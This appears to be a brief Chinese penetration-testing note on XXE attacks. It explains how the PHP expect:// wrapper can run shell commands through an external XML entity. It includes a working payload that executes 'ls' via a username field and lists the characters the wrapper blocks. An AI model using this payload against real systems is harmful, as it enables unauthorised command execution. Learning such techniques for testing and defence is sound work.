

---
tags:
  - XXE
  - WEB
Date: 2026-01-05
---
`expect://` 
作为工具调用协议，不用tcp等原生协议
前提是操作系统需要有expect工具
通过封装协议调用PTY伪终端去执行命令

file://
php://
协议失效的时候，可以尝试使用

```XML
<!DOCTYPE root [<!ENTITY guc SYSTEM "expect://ls">]>

<user><username>&guc;</username><password>a</password></user>
```
直接使用终端对应命令例如ls即可



### expect伪协议对某些符号有限制
包括空格` `，双引号`"`，管道符`|`，大括号`{}`